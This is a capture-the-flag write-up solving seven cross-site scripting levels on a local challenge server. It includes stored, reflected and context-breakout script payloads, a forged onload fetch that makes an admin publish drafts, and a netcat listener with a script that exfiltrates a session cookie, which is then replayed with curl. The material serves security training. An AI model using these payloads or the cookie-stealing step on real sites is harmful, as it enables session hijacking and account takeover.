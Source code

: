 # XSS

## XSS 1

[Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)

Submit HTML of input boxes as a post

```html
<input> </input>
<input> </input>
```

## XSS 2

Submit script for alert as a post

```html
<script> alert("PWNED"); </script>
```

## XSS 3

[Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)

Send the script (AS IN [xss 2](./XSS%202.md)) as a url parameter

```text
http://challenge.localhost/?msg=%3Cscript%3Ealert%28%22PWNED%22%29%3C%2Fscript%3E
```

## XSS 4

[XSS Contexts](https://portswigger.net/web-security/cross-site-scripting/contexts)

Break out of the textarea and inject the script:

```html
</textarea><script>alert("PWNED");</script>
```

## XSS 5

Log in as "hacker" (credentials given in the server code) \
Inspect and open Networks tab. Click on "Publish your drafts", and copy the GET request as Fetch. \
Attach the fetch request to `onload` event:

```html
<script>
    window.onload= async function(){
        await fetch("http://challenge.localhost/publish", {
            "credentials": "include",
            .
            .
            other copied stuff
        });
    };
</script>
```

Publish this as a post.

## XSS 6

Similar to the previous.

## XSS 7.md

Previous solution doesn't work, as posting by admin is disallowed. So have to login as admin to see drafts.

Set up a listener:

```shell
nc -l -v challenge.localhost 20000
```

Craft a post to steal cookie:

```html
<script>
window.onload = async function() {
    try {
        await fetch("http://challenge.localhost:20000", {
            method: "GET",
            credentials: "include" 
        });
    } catch (error) {
        console.error("Error:", error);
    }
};
</script>
```

After getting the cookie, login:

```shell
curl -v --cookie "<stolen-cookie>"  http://challenge.localhost/
```
